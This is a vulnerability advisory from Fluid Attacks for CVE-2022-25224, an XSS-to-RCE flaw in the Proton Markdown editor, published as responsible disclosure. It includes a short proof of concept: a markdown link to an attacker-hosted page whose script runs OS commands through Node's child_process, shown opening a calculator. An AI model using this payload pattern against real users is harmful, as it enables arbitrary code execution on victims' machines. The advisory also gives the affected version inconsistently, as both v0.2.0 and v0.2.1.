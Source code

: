 ```yaml
---
slug: advisories/lennon/
title: Proton v0.2.0 - XSS To RCE
authors: Oscar Uribe
writer: ouribe
codename: lennon
product: Proton v0.2.0
date: 2022-04-29 10:00 COT
cveid: CVE-2022-25224
severity: 7.1
description: Proton Markdown Version 0.2.0 - XSS Markdown Link To RCE
keywords: Fluid Attacks, Security, Vulnerabilities, Proton, XSS, RCE
banner: advisories-bg
advise: yes
template: advisory
---
```


## Summary

|                         |                                                            |
|-------------------------|------------------------------------------------------------|
| **Name**                | Proton v0.2.0 - XSS To RCE                                 |
| **Code name**           | [Lennon](https://en.wikipedia.org/wiki/John_Lennon)        |
| **Product**             | Proton Markdown                                            |
| **Affected versions**   | Version 0.2.0                                              |
| **State**               | Public                                                     |
| **Release date**        | 2022-05-17                                                 |

## Vulnerability

|                       |                                                                                    |
|-----------------------|------------------------------------------------------------------------------------|
| **Kind**              | XSS to RCE                                                                         |
| **Rule**              | [010. Stored cross-site scripting (XSS)](https://docs.fluidattacks.com/criteria/vulnerabilities/010)   |
| **Remote**            | No                                                                                |
| **CVSSv3 Vector**     | CVSS:3.1/AV:L/AC:L/PR:N/UI:R/S:C/C:L/I:H/A:N                                       |
| **CVSSv3 Base Score** | 7.1                                                                                |
| **Exploit available** | No                                                                                 |
| **CVE ID(s)**         | [CVE-2022-25224](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2022-25224)                                                    |

## Description

Proton **v0.2.1** allows an attacker to create a malicious
link inside a markdown file. When the victim clicks the link,
the application opens the site in the current frame allowing
an attacker to host JavaScript code in the malicious link in
order to trigger an XSS attack. The `nodeIntegration` configuration
is set to **on** which allows the webpage to use `NodeJs` features,
an attacker can leverage this to run OS commands.

## Proof of Concept

### Steps to reproduce

1. Create a markdown file with the following content.

   ```javascript
   [Click me!!!](http://192.168.1.67:8002/rce.html)
   ```

2. Host the `rce.html` file with the following
   content on a server controlled by the attacker.

   ```javascript
    <script>
        require('child_process').exec('calc');
    </script>
   ```

3. Send the markdown file to the victim.
   When the victim clicks the markdown link the site
   will be open inside electron and the JavaScript
   code will spawn a calculator.

### System Information

* Version: Proton v0.2.1.
* Operating System: Windows 10.0.19042 N/A Build 19042.
* Installer: Proton.Setup.0.2.0.exe

## Exploit

There is no exploit for the vulnerability but can be manually exploited.

## Mitigation

By 2022-05-17 there is not a patch resolving the issue.

## Credits

The vulnerability was discovered by [Oscar
Uribe](https://co.linkedin.com/in/oscar-uribe-londo%C3%B1o-0b6534155) from the Offensive
Team of  `Fluid Attacks`.

## References

|                     |                                                                     |
|---------------------|---------------------------------------------------------------------|
| **Vendor page**     | <https://github.com/steventhanna/proton/>                           |

## Timeline

* 2022-04-29: Vulnerability discovered.

* 2022-04-29: Vendor contacted.

* 2022-05-17: Public disclosure.